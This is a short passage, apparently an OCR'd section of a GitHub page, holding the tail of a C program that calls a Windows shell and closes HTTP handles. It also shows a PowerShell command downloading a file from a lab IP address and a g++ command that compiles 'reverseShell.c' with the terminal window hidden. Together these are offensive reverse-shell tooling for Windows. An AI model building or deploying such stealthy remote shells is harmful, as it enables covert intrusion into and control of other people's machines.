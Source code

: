 ```c

    printf("%s\n", output);

    system(WINDOWS_SHELL );

    if (!InternetCloseHandle(hHttpRequest)) {
        printf("Warning: Failed to close HTTP connection.\n");
    }

    if (!InternetCloseHandle(hInternet)) {
        printf("Warning: Failed to close internet connection.\n");
    }

    return 0;
}
```


Sending over files via HTTP: Linux to Windows: 
```ps1
Invoke-WebRequest -Uri http://192.168.56.101:8000/test.txt -OutFile test.txt
```


Compile reverse shell without showing terminal:
``` ps1
g++ reverseShell.c -o reverseShell.exe -lws2_32 -mwindows
```